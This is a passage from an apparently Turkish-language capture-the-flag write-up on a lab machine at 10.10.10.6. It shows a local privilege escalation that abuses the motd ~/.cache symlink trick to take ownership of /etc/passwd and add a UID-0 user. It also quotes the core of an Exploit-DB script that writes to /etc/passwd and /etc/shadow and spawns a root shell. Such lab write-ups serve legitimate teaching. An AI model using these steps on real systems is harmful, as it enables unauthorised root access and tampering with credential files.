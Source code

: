 ```
chmod 600 id_rsa
```

```
ssh -i id_rsa -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa www-data@10.10.10.6
```

Ancak .cache dizini motd.legal-displayed olarak görünür:

![Pasted image 20250206190253.png](/img/user/resimler/Pasted%20image%2020250206190253.png)


#### Get Write on passwd

`~/.cache` dizinini temizleyeceğim ve yerine `/etc/sudoers` dosyasına bir sembolik bağlantı koyacağım.

![Pasted image 20250206190404.png](/img/user/resimler/Pasted%20image%2020250206190404.png)


Şimdi tekrar SSH ile giriş yapacağım ve ardından `/etc/passwd` dosyasının sahibi `www-data` olacak.

![Pasted image 20250206190551.png](/img/user/resimler/Pasted%20image%2020250206190551.png)


#### Add Root Users

Yazma erişimimle, sadece bir root kullanıcısı ekleyeceğim. İlk olarak, bir şifre hash'ine ihtiyacım var.

![Pasted image 20250206192029.png](/img/user/resimler/Pasted%20image%2020250206192029.png)

Şimdi /etc/passwd dosyasına bir kullanıcı ekleyeceğim:

Kullanıcı `asd123`, şifresi `asd123`'nin hash değeri, kullanıcı ve grup kimlikleri 0 (root için), açıklama "pwned", ana dizin `/root` ve shell `/bin/bash` olacak.

#### Shell
Artık root shell'i almak için cartel'e su gönderebiliyorum:

![Pasted image 20250206192016.png](/img/user/resimler/Pasted%20image%2020250206192016.png)


### Script

#### Analysis

[Exploid-DB script'i](https://www.exploit-db.com/exploits/14339) bir grup fonksiyon tanımlar, bazı temel kontroller yapar ve ardından bunu çalıştırır:

```
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
  chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
```
